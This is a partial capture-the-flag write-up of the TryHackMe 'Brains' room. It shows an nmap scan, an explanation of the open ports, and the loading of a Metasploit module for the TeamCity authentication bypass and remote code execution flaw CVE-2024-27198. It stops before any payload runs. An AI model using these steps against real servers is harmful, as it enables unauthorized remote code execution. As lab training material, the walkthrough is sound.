 ![Nmap Scan](Theme%20Brains.JPG)
# brains-writeup-thm

> 🧠 Room: [Brains](https://tryhackme.com/room/brains)  
> 📅 Date: April 6, 2025  
> 🛡️ Goal: Gain reverse shell & capture the flag  
> 🚨 CVE used: CVE-2024-27198

# RED exploit the server!
# 1. First Step in the Terminal "nmap -p- <Target_IP_Address>"

```bash
nmap -p- 10.10.252.192
````
"nmap" -> The network scanner tool
"-p-"  -> Scans all ports (from 1 to 65535). By default, Nmap scans only the top 1000 most common ports.
"<Target_IP_Address>" -> The IP address of the target — in the case of the Brains room
![Nmap Scan](Brain%20Room%20Nmap%20scan.JPG)

# What ports are open and why they matter: 
# 22/tcp → ssh (This port is used for Secure Shell (SSH) — remote access to the machine via terminal.)
# 80/tcp → HTTP (This is the default HTTP port, used to serve websites.)
# 50000/tcp → ibm-db2 (detected by default) This is not a common service for this port. In this specific room (Brains), this port is hosting a TeamCity server, vulnerable to CVE-2024-27198.

2. What port should we investigate further + Using Metasploit (msfconsole) to Exploit the TeamCity Vulnerability
# The most interesting one here is Port 50000: even though it's labeled ibm-db2, it actually runs TeamCity, which is vulnerable to authentication bypass and remote code execution (RCE).
```bash
msfconsole
```
# "msfconsole" -> This launches the Metasploit interface.

```bash
search teamcity
```
# "search teamcity" -> This will list available exploit modules related to TeamCity
#  Look for one like: exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198

#  Use the module:
```bash
use exploit/multi/http/jetbrains_teamcity_rce_cve_2024_27198
```

